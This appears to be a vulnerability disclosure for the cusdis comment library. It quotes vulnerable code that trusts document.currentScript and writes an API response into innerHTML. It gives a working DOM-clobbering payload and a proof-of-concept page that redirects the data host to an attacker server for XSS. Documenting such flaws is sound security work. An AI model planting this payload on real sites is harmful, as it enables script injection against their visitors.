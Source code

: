 ## cusdis

### Meta

+ Library: cusdis
+ Stars: 2.6K
+ Version: v1.3.0
+ Payload: ```<img name="currentScript" data-host="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported(MITRE)
+ Foundby: TheHulk


### Library

https://github.com/djyde/cusdis


### Vulnerable Code Snippet

```javascript
async function n() {
  const e = document.currentScript || document.querySelector("#for-testing")
    , {appId: n, host: r} = e.dataset
    , a = r || "https://cusdis.com"
    , o = document.querySelectorAll("*[data-cusdis-count-page-id]")
    , i = Array.from(o).map((e => e.dataset.cusdisCountPageId))
    , s = await t.get(`${a}/api/open/project/${n}/comments/count`, {
      params: {
          pageIds: i
      }
  });
  Array.from(o).forEach((e => {
      e.innerHTML = s.data.data[e.dataset.cusdisCountPageId]
  }
  ))
}
```

### PoC
```html

<!--Library-->
<span data-cusdis-count-page-id="XXX-YYY-ZZZ">0</span> comments
<div id="cusdis_thread"
  data-host="https://cusdis.com"
  data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22"
  data-page-id="XXX-YYY-ZZZ"
  data-page-url="XXX"
  data-page-title="XXX"></div>
</div>
<script async defer src="https://cusdis.com/js/cusdis.es.js"></script>
<script defer data-host="https://cusdis.com" data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22" src="https://cusdis.com/js/cusdis-count.umd.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" data-host="http://localhost:9999">
<!--Payload-->
```